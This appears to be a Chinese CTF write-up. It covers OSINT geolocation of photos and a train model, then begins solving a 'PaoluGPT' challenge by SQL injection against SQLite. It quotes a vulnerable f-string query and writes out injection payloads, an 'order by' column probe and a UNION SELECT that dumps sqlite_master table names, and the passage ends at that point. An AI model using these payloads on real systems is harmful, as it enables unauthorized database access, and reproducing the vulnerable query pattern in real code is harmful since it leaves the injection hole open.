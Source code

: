 ![bili](./images/bili.jpg)

#### 3-4
第一张图，放在搜索引擎搜图大概率得不到什么有价值的信息，但你可以在右下角的垃圾桶上看到 `六安xx`，好的已经确定城市了。可以在**小红书**直接搜索六安公园相关的内容就行了，也可以通过路上的彩色线条来缩小范围。

第二张图，放在搜索引擎中可以搜到一个大致的内容，大概在三峡的一个景观，但是不知道具体在那个景点，而且这个石头好像叫截流石。小红书上继续深入查询，我看到的好像是一个大叔发的视频，知道了这个景点名字。

#### 5-6
首先通过题目可以得知关键信息“四编组动车”, Google it, 可以发现一个[link](https://www.china-emu.cn/EN/Trains/Model/Detail-26012-201-S.html),很清楚的标出了这个第六题的答案。

解答第五题之前你需要先知道这个列车也叫做怀密号，还有它的行驶路线（用互联网搜索），从图中可以看出密集的铁轨大概率就是车站，那么就通过卫星地图对每个站点进行搜索，比对就行了。
> 车站附近的医院也没那么多，或许试错成本也不太高？

### PaoluGPT
> 使用工具：Hackbar

**basic**  (鸣谢Hello-ctf，探姬老师)
![database](https://nssctf.wdf.ink//img/WDTJ/202304261646646.png)  

下载题目源码后发现，其实是一道SQL注入题，而且用的还是SQLite（有些数据库有自己的语言写法）。所以两个flag应该可以一起得到。  
从题目得知flag应该有两个且就在聊天记录中，随机点进一个聊天记录可以看到url此时是这种类型

```
//隐藏了具体url和conversation_id
https://xxx.xx:8443/view?conversation_id=blabla
```
联想到源代码中的
```python
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```
利用单引号的闭合可以很快构造一些SQL语句来利用，譬如
```
// dump 出列数，就这道题来说就是2，其实后端代码也有说是两个返显点
https://xxx.xx:8443/view?conversation_id=blabla' order by 2 --

// Hackbar dump tables，其实后端代码也有，但是请记住这个group_concat 函数。你可以得到这个table名字
https://xxx.xx:8443/view?conversation_id=blabla' union select group_concat(name),2 from sqlite_master WHERE type='table'--

```